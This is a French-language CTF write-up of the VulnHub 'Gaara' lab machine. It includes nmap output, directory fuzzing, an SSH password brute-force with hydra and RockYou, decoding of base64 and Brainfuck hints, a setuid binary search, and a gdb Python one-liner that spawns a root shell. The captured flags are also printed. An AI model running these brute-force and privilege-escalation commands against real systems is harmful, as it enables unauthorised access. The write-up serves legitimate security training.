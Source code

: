 ```yaml
---
title: "Solution du CTF Gaara de VulnHub"
tags: [CTF, VulnHub]
---
```


Disons-le, ce CTF [Gaara](https://vulnhub.com/entry/gaara-1,629/) était loin d'être le plus agréable ou le plus intéressant.

Il commence sur une série de soit disant indices qui génèrent de la confusion. On final on brute force un compte supposé avec la wordlist RockYou et on obtient un shell.

La suite a un goût de déjà vu. C'est parti !

```
Nmap scan report for 192.168.56.54
Host is up (0.000079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
```

J'ai brute-forcé les URLs du serveur web d'abord avec les wordlists `raft` de `fuzzdb` puis finalement avec la `directory-list-2.3-big.txt` de `DirBuster`. Cela m'a retourné la page `Cryoserver` qui contient trois références :

```
/Temari
/Kazekage
/iamGaara
```

Ces pages correspondent à un copier coller d'articles Wikipedia.

Le `imGaara` m'a laissé supposer qu'il y avait un compte `gaara` sur le système et n'ayant pas plus d'infos j'ai décidé de brute-forcer ce possible compte SSH.

J'ai d'abord eu recours à [CeWL is a Custom Word List Generator](https://github.com/digininja/cewl) pour générer une wordlist à partir des trois pages mais aucun mot de passe valide n'en est ressorti.

Finalement j'ai obtenu quelque chose avec RockYou :

```bash
$ ./hydra -l gaara -P rockyou.txt ssh://192.168.56.54
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-14 12:46:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.54:22/
[STATUS] 136.00 tries/min, 136 tries in 00:01h, 14344249 to do in 1757:53h, 12 active
[22][ssh] host: 192.168.56.54   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-14 12:48:5
```

Ce mot de passe `iloveyou2` permet l'accès au SSH. Une fois connecté on trouve deux fichiers :

```
-rw-r--r-- 1 gaara gaara   33 Dec 13  2020 flag.txt
-rw-r--r-- 1 gaara gaara   57 Dec 13  2020 Kazekage.txt
```

Le premier est le flag `5451d3eb27acb16c652277d30945ab1e` et le second contient un message :

> You can find Kazekage here....  
> 
> L3Vzci9sb2NhbC9nYW1lcw==

Le base64 nous indique d'aller jeter un œil dans `/usr/local/games` où l'on trouve un fichier texte qui a l'air encodé via [Brainfuck](https://fr.wikipedia.org/wiki/Brainfuck) :

```
Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<
```

On peut utiliser un décodeur en ligne qui nous donne le texte clair suivant :

> Did you really think you could find something that easily? Try Harder!

Devant cette impasse et en raison de l'absence d'entrées `sudo` je recherche les binaires setuid :

```bash
gaara@Gaara:~$ find / -user root -perm -u+s 2> /dev/null 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

Ce qui m'a plus surpris c'est la présence de Gimp :) On trouve bien une entrée correspondante sur [GTFObins](https://gtfobins.github.io/gtfobins/gimp/) mais toutes les techniques d'exploitation nécessite la présence d'un plugin pour l'exécution de code Python.

Sur le système on ne trouve que `script-fu` et ce dernier a un ensemble de commandes trop limitées. Au mieux il doit être possible d'exfiltrer des données en essayant de charger / sauver une image mais on risque de se cogner la tête sur la validation des formats.

L'entrée GTFObins pour GDB fonctionne bien, gdb supportant le Python depuis quelques années déjà : 

```bash
gaara@Gaara:~$ gdb -q -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# id
uid=1001(gaara) gid=1001(gaara) euid=0(root) egid=0(root) groups=0(root),1001(gaara)
# cd /root
# ls
root.txt
# cat root.txt


 ██████╗  █████╗  █████╗ ██████╗  █████╗ 
██╔════╝ ██╔══██╗██╔══██╗██╔══██╗██╔══██╗
██║  ███╗███████║███████║██████╔╝███████║
██║   ██║██╔══██║██╔══██║██╔══██╗██╔══██║
╚██████╔╝██║  ██║██║  ██║██║  ██║██║  ██║
 ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝

8a763d61f71db8e7aa237055de928d86

Congrats You have Rooted Gaara.

Give the feedback on Twitter if you Root this : @0xJin
```

*Publié le 14 novembre 2022*
